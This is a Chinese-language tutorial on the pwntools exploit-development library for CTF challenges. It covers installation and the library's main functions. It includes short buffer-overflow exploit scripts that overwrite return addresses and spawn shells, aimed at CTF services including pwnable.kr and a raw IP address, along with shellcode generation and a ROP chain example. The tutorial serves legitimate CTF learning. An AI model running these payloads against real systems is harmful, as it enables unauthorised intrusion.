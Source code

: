 # pwntools

Pwntools 是一个CTF框架和漏洞利用开发库，使用Python编写，专为快速原型设计和开发而设计，旨在使漏洞利用编写尽可能简单。  

github地址: https://github.com/Gallopsled/pwntools  
官方文档: http://docs.pwntools.com/  


## 安装
建议的系统：  
```r
64-bit Ubuntu LTS releases (14.04, 16.04, 18.04, and 20.04)
```

安装命令：  
```r
apt-get update
apt-get install python3 python3-pip python3-dev git libssl-dev libffi-dev build-essential
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade pwntools
```


## 使用
官方说明例子：  
```python
from pwn import *
context(arch = 'i386', os = 'linux')

r = remote('exploitme.example.com', 31337)
# EXPLOIT CODE GOES HERE
r.send(asm(shellcraft.sh()))
r.interactive()
```

例子2：  
```python
from pwn import *

pwn = remote('118.193.194.73',10000)

#  sh = process('/bin/sh') # 本地调试

pwn.recvuntil('let\'s begin!\n')

payload = ''
payload += 'a'*112
payload += p32(0x0804865D)

pwn.sendline(payload)

pwn.interactive()
```

例子3：  
```python
# remote.py
"""
Example showing how to use the remote class.
"""

from pwn import *   # 也可以直接   import pwn

sock = remote('127.0.0.1', 9001)     # 连接远程服务

print sock.recvline()           #  接收一行
sock.recvuntil("hello")          # 直到接收到某字符串
sock.recv()          # 接收就对了
sock.send('foo')                 #  发送消息
sock.interactive()               #  进入交互模式
```

例子4：  
```python
# coding:utf8

from pwn import  *

conn = remote('pwnable.kr',9000)
#conn = process("./bof")                   # 这样可以本地调试

payload = 'a'*52 + p32(0xcafebabe)    

conn.sendline(payload)
conn.interactive()
```


## 一些点

### 附加gdb调试
http://docs.pwntools.com/en/stable/gdb.html#member-documentation  
如果执行脚本参数有'G'，就附加gdb，进行调试  
```r
if args.G:
    gdb.attach(conn, 'b * 0x0804868F')
```

一个附加调试脚本示例：  
```python
# Start a process
bash = process('bash')

# Attach the debugger
gdb.attach(bash, '''
set follow-fork-mode child
break execve
continue
''')

# Interact with the process
bash.sendline('whoami')
```

### 区分本地调试或远程利用
如果执行脚本参数有"REMOTE"，就会连接远程服务器，好像跟上面是一个意思
```python
if args['REMOTE']:
    io = remote('exploitme.com', 4141)
else:
    io = process('./pwnable')
```

### 接收某数据后发送
```python
conn.sendafter('Hello', payload)  # 接收到"Hello"之后就发送
conn.sendlineafter('Hello', Payload)  # 会带回车
```

### 汇编反汇编
```python
asm('mov eax, 0')
disasm('\xb8\x00\x00\x00\x00')
```

### 生成shellcode
```python
asm(shellcraft.sh())
```

### 数据互转
```python
# 将数字地址转成64位小端数据
p64(0x12345678)
# 将小端数据转为数字地址，举一反三 32/16/8
u64()
```

### 设置合适的参数
```python
context.binary = './challenge-binary'
```

### 生成ELF对象，方便查看各种表的信息
```python
ELF('./challenge-binary')
```

### 获取函数地址
```python
get_shell = ELF('./challenge-binary').sym['getshell']
# sym是symbols的别名，所以 .symbols是全称
```

### 组合元素
默认是4个字节的小段序，可以设置  
```python
flat(['a' * 0x70, pop_eax_ret_addr, 0xb, pop_edx_ecx_ebx_ret_addr, 0, 0, bin_sh_addr, int_addr])
```


2017/9/2  
